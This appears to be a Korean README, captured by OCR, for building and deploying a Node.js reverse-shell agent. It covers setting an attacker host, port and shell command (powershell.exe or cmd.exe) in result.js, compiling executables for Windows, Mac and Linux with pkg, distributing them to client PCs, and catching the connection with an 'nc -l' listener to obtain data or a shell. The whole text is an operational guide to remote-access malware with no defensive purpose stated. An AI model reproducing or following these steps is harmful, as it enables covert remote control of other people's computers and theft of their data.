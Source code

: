 ★x1 필수 설치파일
1) Node.js
    1. (windows) https://nodejs.org/ko/download/
    2. (MacOSX) brew install node
    3. (Linux) yum install node
2) PKG //에이전트 파일 생성
    1. npm install pkg --g


★x2 코드 수정(result.js)
1) 리버스쉘을 연결할 서버 호스트(HOST_Address, HOST_PORT) 등록
ex) const HOST_Address = "naver.com" or "8.8.8.8"
    const HOST_PORT = ["111"]

2) 리버스쉘 연결할 Command(COMMAND) 등록
ex) const COMMAND  = "powershell.exe", "cmd.exe"

★x3 에이전트 파일 생성(With PKG)
    1) compile.bat 실행
    2) results 폴더 내 에이전트 파일 확인(windows, mac, linux)
    3) 에이전트 파일 Client PC 배포

★x4 Server 측 포트 리스닝
    1) nc -l HOST_PORT
    2) 대기

★x5 Client PC 측 에이전트 파일 실행
    1) (windows) results_win.exe 파일 클릭
    2) Connected 인 경우 연결성공

★x6 Server 
    1) Client 로부터 전달받은 데이터 또는 Shell 획득


